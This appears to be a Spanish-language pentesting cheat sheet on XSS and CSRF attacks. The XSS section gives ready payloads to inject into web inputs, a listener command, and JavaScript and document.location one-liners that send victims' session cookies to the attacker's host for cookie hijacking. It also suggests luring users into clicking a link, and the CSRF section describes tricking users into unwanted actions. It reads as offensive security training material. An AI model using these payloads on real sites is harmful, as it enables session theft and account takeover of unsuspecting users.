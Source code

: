 ### **Método**
Estos scripts se introducen en los inputs de usuario candidatos a ser leídos.

`<script>alert(“XSS”)</script>`  
Nos saldrá ventana emergente con la alerta de XSS si es vulnerable.

`<script src=”http://miIp/recurso.js></script>`  
Anterior comando podríamos usarlo solo para validar XSS o ya directamente para intentar robar la cookie. En mi máquina nos ponemos en escucha: 
```
> python3 -m http.server 80  
```  
Esperamos que nos llege alguna solicitud.

Si nos llega la solicitud podemos crear un recurso js malicioso que permita robar las cookies. También podríamos hacerlo directamente desde la primera petición. Contenido de ese js:
``` java
var request = new XMLHttpRequest();
request.open(‘GET’, ‘http://MiIp/?cookie=’ + document.cookie);
request.send();
```
Si no llegará nada prueba con `, true/false` después del document.cookie, es para señalar asincronía o no.

Si todo bien nos llegará la cookie, con ella podemos suplantar a ese usuario -cookie hijacking- añadiendo la cookie en la web -en consola web-.

También puedes usar este comando sin tener que crear el script js en tu máquina local:
`<script>document.location=”http://MiIp/?cookie=”+document.cookie></script>`

Piensa que igual el usuario puede pinchar en enlaces, podrias poner algo tan simple como **“Oye mira esto!!”; MIIP/recurso.php**

---
## XSRF/CSRF-Cross Site Request Forfery

### **¿Qué es?**

Ocurre en aplicaciones web y permite al atacante inducir a los usuarios a realizar acciones que no pretenden realizar, como por ejemplo, cambiar sus contraseñas y otros datos, realizar transferencia de fondos, etc.

**¿Cuándo pensar en hacer?**

Suelo pensar en hacer si sospecho de un XSS, es decir, alguien por detrás que esta viendo lo que nosotros vamos a meter en el input. No tiene porque ser vulnerable a inyección XSS(entendiendolo a través de un código malicoso, como el típico `<script>..`) porque ,por ejemplo, podrías pasar un enlace directamente y confiar en que pinche por curiosidad. También suelo observar si hay en la web un apartado de cambio de contraseñas u otro punto que pueda aprovecharme y si se puede hacer por el método GET.

**Método**

Ya sea de manera muy parecida al XSS o adjuntando algun comentario atrayente para que pinche a un recurso que tú le sirvas.
